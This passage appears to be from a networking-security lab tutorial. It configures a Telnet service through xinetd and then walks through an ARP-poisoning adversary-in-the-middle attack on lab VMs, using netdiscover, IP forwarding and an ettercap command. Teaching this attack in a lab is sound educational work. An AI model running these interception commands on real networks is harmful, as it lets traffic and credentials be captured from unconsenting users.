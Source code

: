 Make sure the service is now running by checking its status (if it's active) with `service xinetd status`

```txt
● xinetd.service - Xinetd A Powerful Replacement For Inetd
     Loaded: loaded (/usr/lib/systemd/system/xinetd.service; disabled; pre>
     Active: active (running) since Tue 2024-10-01 17:58:14 WEST; 1s ago
 [...]
```

If the service isn't running and you get any errors regarding the Telnet server executable like the following,

```txt
Sep 30 11:23:36 kali xinetd[5822]: Server /usr/sbin/in.telnetd is not executable [file=/etc/xinetd.d/telnet] [line=8]
```

Make sure the telnetd executable path is correct (i.e. change the config file to have `server          = /usr/sbin/telnetd` if your executable is at `/usr/sbin/telnetd`).

## Adversary-in-the-Middle (AitM) attack / ARP poisoning

On the AitM VM we start by scanning the network to find the IPs of the machines in it.

```sh
sudo netdiscover
```

In our case, for simplicity purposes, we already know the IPs of the other two VMs by running, for example, `ip address show` on them.
Therefore, we also know the target network address and the subnet mask (in our case, `192.168.64.0/24`) and can filter out unnecessary information.

```sh
sudo netdiscover -r 192.168.64.0/24
```

This will output something like the following.
Do not be confused by the fact that we have 3 VMs and there are 3 IPs displayed, one of them is in fact the IP of the network interface of the host operating system.
This is due to the network mode being set to "shared network".
Once again, for simplicity purposes, we know that it is the IP `192.168.64.1` so we can exclude it.

![netdiscover output](./images/netdiscover-output.png 'netdiscover output')

Next, enable IP forwarding by running the following command:

```sh
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Now we are ready to use [Ettercap](https://en.wikipedia.org/wiki/Ettercap_(software)) to carry out an [ARP poisoning](https://en.wikipedia.org/wiki/ARP_spoofing) attack effectively allowing for a MitM attack.

```sh
# pseudo command
sudo ettercap -T -M arp:remote /<target_ip_1>// /<target_ip_2>//

# more specifically
sudo ettercap -T -M arp:remote /192.168.64.2// /192.168.64.4//
```
